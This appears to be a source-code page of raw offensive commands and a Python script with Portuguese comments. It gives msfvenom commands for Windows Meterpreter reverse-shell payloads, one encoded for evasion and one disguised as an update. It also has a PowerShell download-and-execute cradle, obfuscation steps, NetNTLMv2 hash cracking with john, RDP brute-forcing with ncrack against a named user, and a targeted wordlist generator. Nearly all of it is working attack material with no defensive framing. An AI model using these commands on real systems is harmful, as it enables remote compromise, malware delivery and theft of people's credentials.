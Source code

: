 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation


http://192.168.1.128:8080/update_pacth.exe

zip --password SuaSenhaForte payload_protegido.zip payload_encoded.exe

IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.128:8080/payload.ps1')


john --wordlist=wordlist_personalizada_advanced.txt --format=netntlmv2 hash_john.txt

ncrack -p 3389 -U <(echo rsilva) -P /home/ray_king/wordlist_personalizada_advanced.txt 192.168.1.84

ncrack -v -p 3389 -U <(echo rsilva) -P /home/ray_king/wordlist_personalizada_advanced.txt 192.168.1.84

import itertools

# Palavras base relacionadas ao alvo
palavras_base = ["rsilva", "atibaia", "suma", "empresa", "admin", "senha"]

# Números comuns para senhas
numeros = ["", "123", "2024", "2023", "007", "001", "777", "999", "10", "50"]

# Símbolos mais usados em senhas
simbolos = ["", "!", "@", "#", "$", "%", "&", "*"]

# Regras de substituições para Leet Speak
substituicoes = {
    "a": ["a", "@", "4"],
    "i": ["i", "1"],
    "s": ["s", "$", "5"],
    "o": ["o", "0"],
    "e": ["e", "3"]
}

def gerar_leet_variacoes(palavra):
    """Gera variações em Leet Speak para uma palavra."""
    combos = [[]]
    for char in palavra:
        novos = []
        if char.lower() in substituicoes:
            for c in substituicoes[char.lower()]:
                for combo in combos:
                    novos.append(combo + [c])
        else:
            for combo in combos:
                novos.append(combo + [char])
        combos = novos
    return set("".join(c) for c in combos)

wordlist = set()

# Gerando variações das palavras base
for palavra in palavras_base:
    variacoes_leet = gerar_leet_variacoes(palavra)
    for variacao in variacoes_leet:
        wordlist.add(variacao)
        wordlist.add(variacao.capitalize())
        wordlist.add(variacao.upper())
        # Adicionando números e símbolos
        for numero in numeros:
            for simbolo in simbolos:
                wordlist.add(variacao + numero)
                wordlist.add(variacao + simbolo)
                wordlist.add(variacao + numero + simbolo)

# Gerando combinações entre palavras
for comb in itertools.permutations(palavras_base, 2):
    base = "".join(comb)
    variacoes_comb = gerar_leet_variacoes(base)
    for variacao in variacoes_comb:
        wordlist.add(variacao)
        for numero in numeros:
            for simbolo in simbolos:
                wordlist.add(variacao + numero)
                wordlist.add(variacao + simbolo)
                wordlist.add(variacao + numero + simbolo)

# Salvando a wordlist
with open("wordlist_pro.txt", "w") as file:
    for senha in wordlist:
        file.write(senha + "\n")

print(f"[+] Wordlist gerada com {len(wordlist)} combinações -> wordlist_pro.txt")




